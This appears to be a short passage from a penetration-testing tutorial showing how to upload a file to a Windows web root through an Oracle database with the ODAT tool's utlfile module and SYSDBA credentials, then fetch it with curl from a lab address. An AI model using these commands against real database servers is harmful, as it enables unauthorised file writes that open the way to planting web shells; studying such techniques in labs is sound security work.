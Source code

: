 ### Oracle RDBMS - File Upload
```shell-session
$ echo "Oracle File Upload Test" > testing.txt
$ ./odat.py utlfile -s <ip address> -d <sid> -U <username> -P <password> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

```shell-session
$ curl -X GET http://10.129.204.235/testing.txt
```